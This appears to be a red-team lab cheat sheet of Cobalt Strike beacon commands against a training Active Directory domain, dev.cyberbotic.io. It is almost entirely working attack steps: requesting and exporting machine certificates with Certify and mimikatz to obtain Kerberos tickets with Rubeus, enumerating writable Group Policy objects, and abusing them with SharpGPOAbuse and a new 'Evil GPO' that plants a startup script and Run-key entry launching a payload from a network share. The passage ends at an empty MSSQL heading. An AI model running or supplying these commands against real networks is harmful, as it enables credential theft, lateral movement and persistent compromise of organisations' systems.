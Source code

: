 #### Computer

```bash
# Request ticket
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
# Computer ticket
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap
```

## Group Policy

```bash
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
beacon> powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
beacon> powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
beacon> powershell Find-DomainShare -CheckShareAccess
```

```bash
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
beacon> powershell New-GPO -Name "Evil GPO"
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
beacon> powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```

## MSSQL
